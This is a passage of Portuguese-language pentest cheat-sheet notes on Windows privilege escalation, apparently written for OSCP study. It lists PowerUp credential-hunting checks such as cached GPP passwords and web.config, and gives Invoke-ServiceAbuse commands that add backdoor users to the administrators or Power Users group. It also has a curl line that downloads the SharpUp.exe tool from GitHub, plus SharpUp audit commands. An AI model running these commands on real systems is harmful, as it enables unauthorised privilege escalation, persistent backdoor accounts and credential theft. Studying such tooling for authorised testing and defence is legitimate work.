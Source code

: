 ```

MISCELLANEOUS CHECKS:

Get-ModifiableScheduledTaskFile
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword

OTHER HELPERS:

Get-ModifiablePath
Get-CurrentUserTokenGroupSid
Add-ServiceDacl
Set-ServiceBinPath
Test-ServiceDaclPermission
Write-UserAddMSI
Invoke-AllChecks
```
##### POWERUP ATAQUE - ADICIONAR USUARIO JOHN COM SENHA: Password123!
```
Invoke-ServiceAbuse -Name VulnSVC   
Get-Service VulnSVC | Invoke-ServiceAbuse
```
##### POWERUP ATAQUE - ADICIONAR AOS ADMINISTRADORES
```
Invoke-ServiceAbuse -Name VulnSVC -UserName "TESTLAB\john"
```
##### POWERUP ATAQUE - ADICIONAR USUARIO, SENHA E ADICIONAR NO GRUPO
```
Invoke-ServiceAbuse -Name VulnSVC -UserName backdoor -Password password -LocalGroup "Power Users"
```
##### POWERUP ATAQUE - EXECCUTAR COMANDO:
```
Invoke-ServiceAbuse -Name VulnSVC -Command "net ..."
```
## SHARPUP
```
curl https://github.com/n0ts0cial/oscp/raw/main/SharpUp.exe -Outfile SharpUp.exe
```
##### SHARPUP - CHECAR TUDO
```
.\SharpUp.exe
.\SharpUp.exe > result.txt
.\SharpUp.exe audit
.\SharpUp.exe audit > result.txt
```
##### SHARPUP - EXEMPLOS
```
.\ SharpUp.exe ModifiableServiceBinaries
.\SharpUp.exe audit ModifiableServiceBinaries
```
##### SHARPUP - OPÇÕES
```
.\SharpUp.exe AlwaysInstallElevated
.\SharpUp.exe CachedGPPPassword
.\SharpUp.exe DomainGPPPassword
.\SharpUp.exe HijackablePaths
.\SharpUp.exe McAfeeSitelistFiles
.\SharpUp.exe ModifiableScheduledTask
```